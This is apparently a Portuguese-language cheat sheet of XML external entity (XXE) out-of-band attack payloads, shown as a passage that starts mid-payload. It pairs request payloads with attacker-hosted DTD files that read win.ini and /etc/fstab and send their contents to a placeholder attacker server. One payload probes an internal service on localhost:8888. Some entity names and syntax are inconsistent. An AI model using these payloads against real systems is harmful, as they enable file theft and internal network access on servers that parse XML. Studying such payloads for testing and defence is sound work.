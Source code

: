 ```
%param1;
]>
<test>&exfil;</test>

## Arquivo File DTD que fica no servidor-atacante

[+] cria o arquivo file.dtd com o código abaixo
[+] armazena o arquivo no servidor-atacante

<!ENTITY % data SYSTEM "file:///C:\windows\win.ini">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://[IP-ATACANTE]/?%start;%data;%end;'>">
```

### XXE Out-of-Band 2
```
### Payload inserido na requisição

<!DOCTYPE XXE OOB [
          <!ENTITY % EvilDTD SYSTEM "http://[URL-SERVIDOR-ATACANTE]/file.dtd" >
          ## Aqui a ordem das enttities tem que ser respeitado
          %EvilDTD; ## Chama a entity da requisição 
          %Load00BEnt; ## Chama a entity no arquivo file.dtd
          %OOB; ## Chama a entity que faz referência ao servidor-atacante
]>

### Payload para o arquivo DTD no servidor-atacante

### A primeira Entity é para o recurso que deseja acessar no servidor/aplicação alvo
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/fstab">

### A segunda Entity é o servidor-atacante que vai receber o request para a primeira Entity e registrar
<!ENTITY % Load00Ent "<ENTITY &#x25; OOB SYSTEM 'http://[URL]/?p=%resource;'> ">
```
### XXE Out-of-Band 3
```
### Payload na requisição

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
    <!ENTITY % dtd SYSTEM "http://[IP-Atacante]:8080/evil.dtd">
    %dtd;
    %all;
]>
<data>&fileContents;</data>

### Payload para o arquivo evil.dtd
Aplicação vai receber o request para o arquivo evil.dtd, e em seguida faz um request para o back-end na porta 8888

<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```
